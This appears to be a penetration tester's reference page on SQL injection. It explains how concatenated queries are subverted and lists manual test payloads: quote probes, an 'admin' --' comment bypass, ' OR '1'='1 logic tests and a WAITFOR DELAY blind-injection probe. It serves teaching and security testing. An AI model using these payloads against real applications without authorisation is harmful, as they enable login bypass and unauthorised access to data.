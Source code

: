 ```yaml
---
title: SQL Injection
tags: [recon, exploit, webvuln, sql, payload]
tools:[many]
notes: "SQL Injection ttp's"
---
```


# SQL Injection

**SQL Injection (SQLi)** is a web security vulnerability that allows an attacker to interfere with the queries that an  application makes to its database. It enables attackers to view, modify, or delete data they are not normally able to access.

## How It Works

SQL injection occurs when an application builds SQL queries by  concatenating strings that include user-supplied data. When this input  isn't properly sanitized, attackers can modify the query's logic. For  example, in the query:

```sql
SELECT * FROM users WHERE username = 'input' AND password = 'input'
```

An attacker might input: `admin' --`, changing the query to:

```sql
SELECT * FROM users WHERE username = 'admin' --' AND password = 'input'
```

This commenting out the password check entirely.

## Detection

### Manual Testing

#### Quote Tests

Tests for SQL parsing errors by injecting different types of quotes:

```sql
# Quote tests - Testing for SQL parsing errors
username'   # Single quote - Most common SQL injection test
username"   # Double quote - Used in some database types
username`   # Backtick - Mainly for MySQL identifier injection
```

#### Logic Tests

Verifies query manipulation possibilities through boolean logic:

```sql
username' OR '1'='1   # Always true condition, often bypasses authentication
username' AND '1'='2  # Always false condition, verifies boolean responses
username' WAITFOR DELAY '0:0:5'--  # Time-based test, checks for blind injection
```
